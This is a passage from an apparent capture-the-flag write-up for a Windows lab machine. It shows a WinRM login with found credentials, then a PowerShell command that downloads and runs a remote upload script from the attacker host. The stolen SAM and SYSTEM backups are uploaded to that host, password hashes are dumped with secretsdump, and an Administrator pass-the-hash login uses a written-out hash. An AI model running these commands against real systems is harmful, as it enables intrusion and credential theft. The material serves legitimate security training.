 Using the creds for Jareth:
![](../attachment/e82a5c270714133d0d1c6e90b60d601b.png)
We can login through winrm:
```
evil-winrm -i 10.10.144.13 -u Jareth -p sarah
```
![](../attachment/a4f7feb9d235bd1e0dd73f6d1871dab6.png)
We have a flag in Desktop.

We find a recycle bin with `ls -fo`:
![](../attachment/2b2a23e5b135ae26fa735dc2ed3d81be.png)

Now we can check files here:
![](../attachment/f65498b3e8bcff21dfd73d95e0bff966.png)

We have system and sam in one of those directories:
![](../attachment/8b97a93f6f800af1784e0c44b6f7fc7e.png)

Now starting a python server on kali:
```
python3 -m uploadserver 80
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.23.10.19/PSUpload.ps1')
```
```
Invoke-FileUpload -Uri http://10.23.10.19/upload -File sam.bak
Invoke-FileUpload -Uri http://10.23.10.19/upload -File system.bak
```

Now we have the files on our machine.

We can use secretsdump.py:
```
secretsdump.py LOCAL -sam sam.bak -system system.bak
```
![](../attachment/61e2bc91056bcd1ddc2ddb54110bfdc7.png)

Now getting an nt authority shell with evil-winrm:
```
evil-winrm -i 10.10.144.13 -u Administrator -H 6bc99ede9edcfecf9662fb0c0ddcfa7a
```

